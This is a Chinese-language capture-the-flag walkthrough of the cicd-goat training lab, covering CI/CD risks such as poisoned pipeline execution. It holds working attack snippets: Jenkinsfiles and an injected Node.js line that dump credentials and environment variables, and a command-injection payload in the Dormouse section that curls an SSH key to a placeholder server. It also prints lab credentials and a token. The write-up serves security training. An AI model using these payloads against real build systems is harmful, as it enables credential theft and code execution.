


# 通过 cicd-goat 靶场学习Top 10 CI/CD Security Risks

https://github.com/cider-security-research/cicd-goat

## 0x01 [CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/)  White Rabbit(D-PPE)

可以通过 admin ciderland5# 登录后台查看具体的配置

## 原理

漏洞介绍：https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422

简单来说就是通过修改存储库中可控的 CI 管道配置文件达到执行命令的目的，Jenkinsfile（Jenkins）、.gitlab-ci.yml（GitLab）、.circleci/config.yml（CircleCI）、.github/workflowers 的 GitHub Actions YAML 文件这些都是 CI 配置文件。

PPE 主要有三种攻击方式：

- **Direct (D-PPE)**：修改可访问的存储库中的 CI 配置文件后直接将更改推送到存储库上的一个未受保护的远程分支，或者通过从一个分支或分叉提交带有更改的 PR。由于 CI 管道的执行是由 push 或 PR 事件触发的，并且管道的执行是由修改后的 CI 配置文件中的命令定义的，攻击者的恶意命令最终在构建管道触发后在构建节点上运行。
- **Indirect (I-PPE)**：如果CI的流水线定义不是在代码仓库中的配置文件定义，而是在CI系统（Jenkins）自身定义的。仍然可以通过代码仓库中存在的文件进行恶意代码执行，如 Makefile 文件、管道中自定义执行的shell脚本。通过间接插入恶意代码到管道中执行的脚本，达到恶意代码植入。
- **Public (P-PPE, or 3PE)**：从公共的代码仓库拉取的代码，如果攻击者通过公共仓库进行投毒，会对CI系统造成破坏，如果CI系统在内网，甚至可能进一步危害内网安全。

## 漏洞复现

### 恶意 Jenkinsfile 文件

访问 Gitea 的 `Wonderland/white-rabbit` 项目下有一个 Jenkinsfile 文件，修改如下，将获取名为 flag1 的凭据，并存储在 msg 环境变量中并输出

```
pipeline {
    agent any
    stages {
        stage ('poc') {
            steps {
                withCredentials([string(credentialsId: 'flag1', variable: 'msg')]) {
                    sh '''
                        echo $msg | base64
                    '''                 
                }
            }
        }
    }
}
```

这里我们限制了 String 类型，所以实际凭证是需要符合 `org.jenkinsci.plugins.plaincredentials.StringCredentials` 这个类型的，Jenkins 支持的凭据见 [官方](https://www.jenkins.io/doc/book/using/using-credentials/) 


举例说明，在 Jenkins-server 的 /var/jenkins_home/credentials.xml 文件存储的凭据是作用于全局的，不同的字段就对应的是 `withCredentials([string(`、`withCredentials([usernamePassword(` 这样的字段


实际可以通过如下代码直接指定在可用节点  Jenkins-agent 执行命令

```
pipeline {
    agent any
    stages {
        stage ('poc') {
            steps {
                sh "touch /tmp/pwn1.txt"
            }
        }
    }
}
```

还可以用 `agent {label 'built-in'}` 指定在 Master 节点，即 Jenkins server 执行命令

```
pipeline {
    agent {label 'built-in'}
    stages {
        stage ('poc') {
            steps {
                sh 'touch /tmp/pwn.txt'
            }
        }
    }
}
```

这两个名字都是可以的


### 合并分支

创建新分支并合并

```
git checkout -b poc
git add *
git commit -m "commit"
git push -u origin poc
```

之后来到 Jenkins 的 pipeline 构建过程查看结果 http://localhost:8080/view/all/builds


## 0x02 Mad Hatter(I-PPE)

mad-hatter 是两个库，pipeline 这个库没有权限操作，但在 `Wonderland/mad-hatter` 库中存在 Makefile，是一个 I-PPE 利用


```
abc:
	echo "${FLAG}" | base64
```

## 0x03 [CICD-SEC-6 Insufficient Credential Hygiene](https://www.cidersecurity.io/top-10-cicd-security-risks/insufficient-credential-hygiene/) Duchess

比较简单的一个 Git 存储库获取，用 [gitleaks](https://github.com/gitleaks/gitleaks) 获取敏感信息

```
gitleaks detect -v
```


这里显示不全，通过 `Fingerprint` 的 commit hash 使用 `git show <commit-hash>` 获取该历史记录。


## 0x04 Caterpillar

同样是一个 PPE 的题目，先 fork Wonderland/caterpillar 仓库，修改 Jenkinsfile 后发起 `Pull Request` 请求，其他操作都是一样的了，执行 `env` 拿到 GITEA_TOKEN，执行拉取请求 `git clone http://5d3ed5564341d5060c8524c41fe03507e296ca46@localhost:3000/Wonderland/caterpillar.git`



拿到有权限的 token 后拉取仓库，之后构建利用 Jenkinsfile 获取 flag。

```
pipeline {
    agent any
    stages {
        stage ('poc') {
          steps {
              withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
                  sh 'echo $TOKEN | base64'
              }
          }
        }
    }
}
```

### 为什么？

登录 admin 可以看到这个题有两个管段 wonderland-caterpillar-test 通过 fork 合并触发，wonderland-caterpillar-prod 指 没有 PR 的分支


## 0x05 Cheshire Cat   CICD-SEC-4、CICD-SEC-5

用前面介绍过的指定节点执行命令

```
pipeline {
    agent {label 'built-in'}
    stages {
        stage ('poc') {
            steps {
                sh 'touch /tmp/pwn.txt'
            }
        }
    }
}
```

## 0x06 Twiddledum  CICD-SEC-3

twiddledum 是根据 twiddledee 的 tag 变动来执行的，修改 twiddledee 的 index.js 为

```
const child_process = require('child_process');
child_process.exec('env|base64 -w 0',function(error, stdout, stderr){console.log(stdout)});
```

提交后手动 build 

```
git tag 1.2.0 HEAD
git push origin 1.2.0
```

## 0x07 Dodo  CICD-SEC-1

引入 [checkov](https://github.com/bridgecrewio/checkov) 产生的安全问题，这个工具会读取仓库中的 .checkov.yml 配置文件作为 checkov 运行的配置，具体原理参考 [这篇文章](https://www.cidersecurity.io/blog/research/malicious-code-analysis-abusing-sast-misconfigurations-to-hack-ci-systems/) 。

复现修改 main.tf 的 ACL 为 public-read


创建 .checkov.yml 文件

```
soft-fail: true
check:
  - THIS_NOT_THE_CHECK_YOUR_ARE_LOOKING_FOR
```

push

```
git add .checkov.yml
git commit -m "add"
git push
```

需要注意的是 如果是本地拉取后再 commit 的会在 jenkins 服务器上创建账号，这个账号和 git 提交时的号有关，创建后就需要 admin 账号才能删除，是个天坑


## 0x08 Hearts

新建 Node 通过 SSH 连接获取 prod ssh 密钥

使用 [cowrie](https://github.com/cowrie/cowrie) 蜜罐

```
docker run -p 2222:2222 cowrie/cowrie
```

新建后选择需要获取的凭证节点及蜜罐监听 ip


监听得到 Prod 的 ssh 密码


## 0x09 Dormouse

Wonderland/dormouse 仓库的 Jenkinsfile 文件存在一个下载 .sh 文件的地址


进入 http://localhost:3000/Cov/reportcov 仓库，Jenkinsfile 文件直接拼接 title 执行命令，存在代码注入


通过环境变量 KEY 向远程主机复制文件，ssh 密钥，所以可以获取该变量

```
`echo "${KEY}" > key && curl -v -F file=@key <YOUR SERVER>`
```



## 0x10 Mock Turtle

解读 Jenkinsfile 文件的三个 check ，按要求构造后创建新分支后发起 PR


具体 check 解读见 chatgpt


**参考**

> https://xz.aliyun.com/t/13009
>
> https://tttang.com/archive/1650/